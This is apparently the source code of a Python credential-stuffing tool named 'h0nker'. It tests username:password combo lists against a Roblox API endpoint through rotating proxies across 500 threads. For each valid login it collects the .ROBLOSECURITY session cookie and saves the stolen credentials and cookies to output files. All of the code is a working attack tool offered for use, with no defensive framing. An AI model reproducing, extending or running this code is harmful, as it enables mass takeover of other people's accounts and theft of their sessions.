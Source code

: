 from structures import ProxyPool, ComboQueue, Counter
from utils import extract_roblosecurity
import threading
import requests
import secrets
import os
import time
import ctypes

THREAD_COUNT = 500
LOG_INVALIDS = False
LOG_ERRORS = True

checked_count = 0
total_count = 0
counter = Counter()

with open("token.txt") as fp:
    token = fp.read().strip()

with open("combos.txt", encoding="UTF-8", errors="ignore") as fp:
    print("Loading combos ..")
    combos = ComboQueue()
    for index, line in enumerate(fp.read().splitlines()):
        try:
            credential, password = line.split(":", 1)
            if "@" in credential:
                raise Exception("Emails are not supported")
            combos.add(credential, password)
        except Exception as err:
            print(f"Unexpected error while loading line {line+1}: {err} {type(err)}")
    combos.process()
    total_count = combos.size()

with open("proxies.txt", encoding="UTF-8", errors="ignore") as fp:
    print("Loading proxies ..")
    proxies = ProxyPool(fp.read().splitlines())

report_lock = threading.Lock()
def report_success(combo, cookie):
    with report_lock:
        if not os.path.isdir("output"):
            os.mkdir("output")
        with open("output/combos.txt", "a", encoding="UTF-8", errors="ignore") as fp:
            fp.write("%s:%s\n" % combo)
            fp.flush()
        with open("output/cookies.txt", "a", encoding="UTF-8", errors="ignore") as fp:
            fp.write("%s\n" % cookie)
            fp.flush()
        with open("output/comboscookies.txt", "a", encoding="UTF-8", errors="ignore") as fp:
            fp.write("%s:%s:%s\n" % (combo[0], combo[1], cookie.split("_")[-1]))
            fp.flush()

class StatThread(threading.Thread):
    def __init__(self):
        super().__init__()
    
    def run(self):
        while True:
            time.sleep(0.1)
            try:
                ctypes.windll.kernel32.SetConsoleTitleW("  |  ".join([
                    "h0nker",
                    "Progress: %d/%d" % (checked_count, total_count),
                    "CPM: %d" % counter.get_cpm()
                ]))
            except:
                pass

class Thread(threading.Thread):
    def __init__(self):
        super().__init__()
    
    def run(self):
        global checked_count

        while True:
            combo = next(combos)

            try:
                with next(proxies) as proxy:
                    data = '{"username":"%s","password": "%s"}' % combo

                    conn = proxy.get_connection("api.roblox.com")
                    conn.putrequest("POST", "/xboxlive/link-existing-user")
                    conn.putheader("Authorization", token)
                    conn.putheader("Content-Type", "application/json")
                    conn.putheader("Content-Length", str(len(data)))
                    conn.endheaders()
                    conn.send(data.encode("UTF-8"))

                    resp = conn.getresponse()
                    status = resp.read().decode("UTF-8")

                    if status in ["RobloxUserAlreadyLinked", '{"success":true}']:
                        print("[SUCCESS]", combo)
                        counter.add()
                        checked_count += 1
                        combos.key_to_passwords[combo[0].lower()] = []
                        cookie = extract_roblosecurity(resp)
                        report_success(combo, cookie)
                    
                    elif status == "InvalidCredentials":
                        if LOG_INVALIDS:
                            print("[INVALID]", combo)
                        checked_count += 1
                        counter.add()

                    elif status in ["XboxUserAlreadyLinked", "2StepVerificationAccountDenied"]:
                        combos.key_to_passwords[combo[0].lower()] = []
                        checked_count += 1
                    
                    else:
                        raise Exception("Unexpected response: %s" % status)
                
            except Exception as err:
                combos.add(*combo)
                if LOG_ERRORS:
                    print(err)

StatThread().start()
for _ in range(THREAD_COUNT):
    Thread().start()
